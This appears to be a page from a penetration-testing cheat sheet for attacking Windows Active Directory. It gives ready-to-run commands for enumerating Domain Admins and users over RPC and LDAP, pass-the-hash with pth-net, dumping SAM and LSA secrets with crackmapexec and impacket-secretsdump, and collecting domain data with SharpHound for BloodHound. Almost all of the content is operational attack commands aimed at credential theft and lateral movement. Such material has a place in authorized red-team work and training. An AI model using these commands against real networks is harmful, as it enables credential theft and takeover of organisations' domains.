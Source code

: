 Use RPC to gain additional information
```bash
# List Domain Admins group members:
net rpc group members 'Domain Admins' -U 'DOMAIN/USERNAME%PASSWORD' -S IP

# Pass-the-hash:
pth-net rpc group members 'Domain Admins' -U 'DOMAIN/USERNAME%HASH' -S IP

# Enumerate users:
crackmapexec ldap -u USERNAME -p PASSWORD -d DOMAIN DCIP -M user-desc

# Enumerate users with rpcclient:
script script-rpcclient-domainusers.txt
rpcclient -U 'DOMAIN/USERNAME%PASSWORD' DCIP
enumdomusers

# Enumerate Groups for a specific user:
net rpc user info USERNAME -U 'DOMAIN/USERNAME%PASSWORD' -S IP
```

Using admin credentials to gain additional credentials or information on lateral movement
```bash
# Dump the SAM
cme smb <target/subnet> -u User -p pass --sam

# Dump LSA Secrets
cme smb <target/subnet> -u User -p pass --lsa

impacket-secretsdump.py 'DOMAIN/USER:PASS@TargetIP'

# locally dump SAM
impacket-secretsdump.py 'DOMAIN/USER:PASS@TargetIP' -sam sam.sam -security security.security -system system.system LOCAL
```
### BloodHound
#### Collectors
To utilize BloodHound (BH) you first need to have a valid set of credentials and a way to collect (LDAP) domain information.

This is done using a varying set of tools called collectors. They will query the domain for information and put them into a json format that BH can interpret and display using Neo4j. 

#### SharpHound
This collector is the standard collector. It comes as both a PowerShell script and a Compiled C# binary.
```powershell
# Powershell Script
Import-Module SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All

# Binary
.\SharpHound --CollectionMethods All
```

